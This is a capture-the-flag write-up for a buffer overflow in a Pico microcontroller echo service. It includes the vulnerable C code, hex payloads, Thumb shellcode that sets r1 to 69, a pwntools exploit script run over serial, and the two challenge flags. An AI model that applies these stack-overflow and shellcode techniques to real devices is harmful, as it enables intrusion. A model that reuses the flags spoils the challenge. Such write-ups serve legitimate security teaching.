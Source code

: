 # Challenge files

Opening a serial connection reveals the running program.

As the source fragment suggest, sending anything is printed back.

```
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0a
```

![](screenshots/1.png)

The source fragment shows the vulnerable part and the crown jewels. The buffer size is 64 bytes. 

```c
void decrypt() {
	...
    
    printf("Congratulation for the flag: %s !\n", buff);
    printf("There is a second one here, keep looking! Register r1 should be 69!\n");
    stdio_flush();

    if (r1 != 69) { reboot(); }
    ...
    if (r1 != 69) { reboot(); }
    ...
    if (r1 != 69) { reboot(); }
    ...
    if (r1 != 69) { reboot(); }
    ...
    ...

    printf("Congratulation for the flag: %s !\n", buff);
    printf("Rebooting in 5s");
    stdio_flush();
    sleep_ms(5000);
    reboot();
}

void echo() {
    char buff[64];
    printf("[Debug] buff at 0x%08x.\n", buff);
    printf("Input: ");
    gets_crlf(buff); //same as gets, but terminates on any of \n or \r
    printf("Output: %s\n", buff);
    stdio_flush();
}
```

There are also some debug messages printing the important addresses.

# Disassembly

Exporting the binary and loading it into ghidra is detailed in the [challenge1](../challenge1/WRITEUP.md#import-binary) solution. Arm v6 or Cortex, LE, base 0x10000000 was used.

You can follow the print strings and see the buffer distance at the start (0x44, 68).

![](screenshots/3.png)


# Buffer overflow

The buffer is 64 bytes, but there is no size constrain on the input.

We have the decrypt function address printed as debug info. We can jump into that directly.

![](screenshots/4.png)

```
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
FF FF FF FF 15 04 00 10 
0a
```

![](screenshots/5.png)

The overflow works, but we need more control to get a second flat. We have to set r1 register to 69.

# Shellcode

We also have the buffer address printed as help, we can use that to store a shellcode and jump to it.
The GNU assembler `as` from the pico sdk can be used to construct a shellcode. 

[exploit_shellcode.s](workdir/exploit_shellcode.s) .

```as
.thumb
.align 4

.text
.global _start
_start:
    mov r1, #69
	pop {pc}
```

```bash
/path/to/pico/sdk/gcc-arm-none-eabi/bin/arm-none-eabi-as exploit_shellcode.s -o exploit_shellcode.o 
/path/to/pico/sdk/gcc-arm-none-eabi/bin/arm-none-eabi-objdump -D exploit_shellcode.o
```

Alternatively https://shell-storm.org/online/Online-Assembler-and-Disassembler/ with ARM Thumb and Little Endian setting, or any similar service can be used. 

Keep in mind, when setting the pc register, we need to bitwise OR the address with 0x1 to mark it as Thumb instruction, hence 0x20041ea9 is used instead 0x20041ea8. See ARM internals for more info.

Shellcode is minimal, setting the register to the required value and then popping the decrypt into pc.

![](screenshots/6.png)

The buffer structure.

![](screenshots/7.png)

```
45 21 00 bd 41 41 41 41 41 41 41 41 41 41 41 41 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
FF FF FF FF a9 1e 04 20 15 04 00 10 
0a
```

Sending the correctly set r1 gives us both flags.

![](screenshots/8.png)

# Pwntools script

Pwntools can be used to communicate with the device over serial and send the buffer in a more structured way. 

[exploit.py](workdir/exploit.py)

```python
#!/bin/env python3

'''
Initialization complete!
[Debug] main at 0x10000385.
[Debug] echo at 0x10000351.
[Debug] decrypt at 0x10000415.
Echo service running.
[Debug] buff at 0x20041ea8.
Input: XXX
Output: XXX
'''

from pwn import *
from time import sleep
import sys

io = serialtube("/dev/ttyACM0", baudrate=115200)

def flatl(x):
    return flat(x, endianness="little")

BUFF_LEN = 64
BUFF_ADDR = 0x20041ea8
DECRYPT = 0x10000415

SHELLCODE = b"".join([
    b"\x45\x21", # movs r1, #69
    b"\x00\xbd", # pop {pc}
])

PAYLOAD = b"".join([
    SHELLCODE,
    b"A"*(BUFF_LEN-len(SHELLCODE)),
    b"XXXX",
    flatl(BUFF_ADDR | 0x1), # thumb instruction need | 0x1 for address
    flatl(DECRYPT),
    b"\n"
])

io.recv(timeout=0.1)
#io.send_raw(b"A"*63+b"\n")
io.send_raw(PAYLOAD)
while True:
    try:
        res = io.recvline()
        print(res.decode("utf-8"), end="")
    except:
        break
```

![](screenshots/10.png)

# Flags
`DB{23ba345e029c137179fc3551503c}`

`DB{ea4d25a78cddc9fda52f1e465eb8}`
